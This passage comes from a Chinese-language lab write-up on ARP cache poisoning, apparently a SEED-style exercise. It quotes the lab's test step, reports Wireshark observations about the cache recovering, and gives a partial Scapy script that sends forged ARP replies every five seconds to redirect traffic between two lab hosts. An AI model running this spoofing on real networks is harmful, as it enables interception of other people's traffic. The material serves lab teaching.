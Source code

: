 查看B的缓存表

![image-20220505203412608](ARPCachePoisoning/image-20220505203412608.png)

已然完成欺骗

### **步骤2**（测试）

> **步骤2**（测试）。 攻击成功后，请尝试在主机A和B之间互相ping，并报告您的观察结果。 请在您的报告中显示Wireshark结果。 在执行此步骤之前，请确保关闭主机M上的IP转发。 您可以使用以下命令来执行此操作：
>
> ```bash
> sysctl net.ipv4.ip_forward=0
> ```
>

![image-20220505211946308](ARPCachePoisoning/image-20220505211946308.png)

测试时，我们那发现先是会被欺骗一阵子，但随后又会恢复正确通讯。

wireshark发现，这是由于长期不回复，于是便再次发送ARP请求获取了正确的mac地址。

![image-20220505210545143](ARPCachePoisoning/image-20220505210545143.png)

我们修改程序，按要求每5秒发一次

```python
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

while True:
    # Poisoning A's mac
    # Sending ARP reply from M->A
    ethA = Ether(src=M_mac, dst=A_mac)
    arpA = ARP(hwsrc=M_mac, psrc=B_ip,
               hwdst=A_mac, pdst=A_ip)
    arpA.op = 2

    # Poisoning B's arp
    # Sending reply from M->B
    ethB = Ether(src=M_mac, dst=B_mac)
    arpB = ARP(hwsrc=M_mac, psrc=A_ip,
```